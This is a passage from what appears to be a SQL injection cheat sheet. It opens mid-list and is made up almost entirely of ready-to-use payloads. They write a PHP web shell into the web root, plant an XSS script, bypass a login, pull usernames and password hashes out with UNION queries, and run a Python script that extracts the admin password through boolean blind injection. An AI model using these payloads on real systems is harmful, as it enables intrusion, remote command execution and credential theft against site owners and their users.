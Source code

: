 - Store XSS payloads in database:
    
    ```
    ' UNION SELECT NULL, '<script>alert(1)</script>' INTO DUMPFILE '/var/www/html/page.php' --
    ```
    

#### 8.2 From SQLi to File Upload

- Use SQL injection to write files:
    
    ```
    ' UNION SELECT NULL, '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php' --
    ```
    

## Exploitation & Reporting

### Exploitation Templates

#### Basic Authentication Bypass

```
Request:
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=admin'--&password=anything

Response:
HTTP/1.1 302 Found
Location: /dashboard
```

#### UNION-based Data Extraction

```
Request:
GET /products?id=123' UNION SELECT 1,username,password,4,5 FROM users-- HTTP/1.1
Host: example.com

Response:
HTTP/1.1 200 OK

Product Details:
Name: admin
Description: 5f4dcc3b5aa765d61d8327deb882cf99
Price: 4
```

#### Blind Boolean Exfiltration

```
# Python script for boolean-based extraction
import requests

url = "https://example.com/products"
extracted = ""
for i in range(1, 20):  # Extract first 20 chars
    for c in range(32, 127):  # Printable ASCII
        payload = f"?id=123' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),{i},1))={c}--"
        r = requests.get(url + payload)
        if "Product found" in r.text:  # Success condition
            extracted += chr(c)
            print(f"Found char at position {i}: {chr(c)}")
```